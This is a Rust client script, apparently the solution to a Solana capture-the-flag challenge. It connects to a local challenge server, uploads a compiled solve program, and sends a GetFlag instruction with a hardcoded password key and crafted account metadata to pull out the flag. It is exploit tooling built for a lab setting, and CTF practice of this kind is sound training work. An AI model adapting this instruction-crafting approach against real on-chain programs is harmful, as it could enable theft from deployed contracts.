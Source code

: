 ```rust

fn main() -> Result<(), Box<dyn Error>> {
    let mut stream = TcpStream::connect("127.0.0.1:8080")?;
    let mut reader = BufReader::new(stream.try_clone().unwrap());

    let mut line = String::new();

    let so_data = fs::read("./solve/target/deploy/solve.so")?;

    reader.read_line(&mut line)?;
    writeln!(stream, "{}", solve::ID)?;
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", so_data.len())?;
    stream.write_all(&so_data)?;

    let chall_id = chall::ID;

    let user = Pubkey::from_str(&get_line(&mut reader)?)?;

    let ix = solve::instruction::GetFlag {};
    let data = ix.data();

    let password = Pubkey::from_str("8W4K4D8y1y7nXqNAYc3CtBMWj1dFDJRxrSbqffLTSg8u")?;
    let state = Pubkey::find_program_address(&[FLAG_SEED], &chall_id).0;
    let ix_accounts = solve::accounts::GetFlag {
        state,
        password: password,
        payer: user,
        token_program: spl_token::ID,
        chall: chall_id,
        system_program: solana_program::system_program::ID,
        rent: solana_program::sysvar::rent::ID,
    };

    let metas = ix_accounts.to_account_metas(None);

    reader.read_line(&mut line)?;
    writeln!(stream, "{}", metas.len())?;
    for meta in metas {
        let mut meta_str = String::new();
        meta_str.push('m');
        if meta.is_writable {
            meta_str.push('w');
        }
        if meta.is_signer {
            meta_str.push('s');
        }
        meta_str.push(' ');
        meta_str.push_str(&meta.pubkey.to_string());

        writeln!(stream, "{}", meta_str)?;
        stream.flush()?;
    }

    reader.read_line(&mut line)?;
    writeln!(stream, "{}", data.len())?;
    stream.write_all(&data)?;

    stream.flush()?;

    line.clear();
    while reader.read_line(&mut line)? != 0 {
        print!("{}", line);
```